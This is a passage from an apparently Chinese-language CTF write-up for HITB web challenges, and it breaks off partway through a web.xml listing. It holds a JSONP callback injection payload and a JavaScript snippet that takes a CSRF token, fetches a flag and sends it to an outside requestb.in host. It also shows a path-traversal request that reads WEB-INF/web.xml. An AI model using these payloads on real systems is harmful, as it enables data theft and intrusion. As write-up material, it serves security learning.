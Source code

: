 getflag

```
HITB{j50nP_1s_VulN3r4bLe}
```

#### 思路二

注册登录之后，发现一个有趣的链接

```
http://47.88.218.105:20010/action.php?callback=getInfo
```

经过分析，`callback` 参数可以被控制

由此写payload:

```
http://47.88.218.105:20010/action.php?callback=%3Chtml%3E%3Cbody%3E%00%00%00%00%00%00%00%3Cscript%20src=%22//cdn.bootcss.com/jquery/3.1.1/jquery.min.js%22%3E%3C/script%3E%00%00%00%00%00%00%00%3Cscript%20src=%22//<OUR_SERVER_IP>/test.js%22%3E%3C/script%3E%3Cdiv%3E
```

`test.js` 的内容:

`js window.onload = function() { var a = document.getElementsByTagName('div')[0], data = eval(a.innerHTML); $.get("getflag.php",{ csrftoken: data['csrftoken'] },function(data,status) { feedback(data); }); } function feedback(data) { var data = encodeURIComponent(data), img = document.createElement('img'); img.src = '`https://requestb.in/xk998hxk?`' + data; console.log(img); document.body.appendChild(img); }` getflag

```
HITB{j50nP_1s_VulN3r4bLe}
```

### Zhuanxv

拿到网址:[http://111.198.29.45:38794](http://111.198.29.45:38794/),扫描后台发现登入界面,在后台的css处动态加载图片:

```css

    body{
        background:url(./loadimage?fileName=web_login_bg.jpg) no-repeat center;
        background-size: cover;
    }
```

我们大致就可以猜到是利用文件读取漏洞,通过wappalyzer得知这是一个java的web站点

java的web站点的目录结构

![image.png](https://i.loli.net/2019/09/01/LduWtSfIh8bDA7Z.png)

`loadimage?fileName=../../WEB-INF/web.xml`

得到

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
```
